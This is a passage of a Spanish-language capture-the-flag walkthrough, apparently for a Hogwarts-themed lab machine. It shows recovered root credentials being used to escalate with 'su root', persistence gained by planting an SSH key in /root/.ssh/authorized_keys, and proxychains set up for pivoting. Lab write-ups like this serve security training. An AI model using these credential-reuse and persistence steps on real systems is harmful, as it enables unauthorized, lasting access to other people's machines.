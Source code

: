 Resultado:

```bash
decrypting login/password pairs
http://nagini.hogwarts:b'root',b'@Alohomora#123'
```

Explicación: 

Acción:

```bash
su root
```

Resultado:

```bash
Paasword: <@Alohomora#123>
```

Explicación: elevamos privilegios como usuario root. Ahora estableceremos persistencia y trataremos de pivotar hacia la siguiente máquina


---

### Persistencia

Acción:

```bash
cd /root/.ssh
nano authorized_keys
exit
proxychains ssh root@10.10.0.129
```

**Nota:** desde la máquina atacante generamos un par de claves pública y privada para poder copiar en el directorio `/roor/.ssh/` y ganar persistencia a la máquina objetivo. Para ello en la máquina atacante ejecutamos `ssh-keygen` y le damos a `Enter` tres veces (las que pide) para generar las claves, no hay que escribir nada, solo ejecutar `cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip` para copiar en la clipboard la contraseña pública y poder pegarla en la máquina objetivo en un archivo llamado `authorized_keys` y guardado en la ruta `/root/.ssh/`

Explicación: generamos una clave ssh que almacenamos en la raíz del sistema root, para poder conectarnos sin otorgar contraseña cuando queramos a la máquina objetivo



---

## Pivoting

Acción:

```bash
hostname -I
```
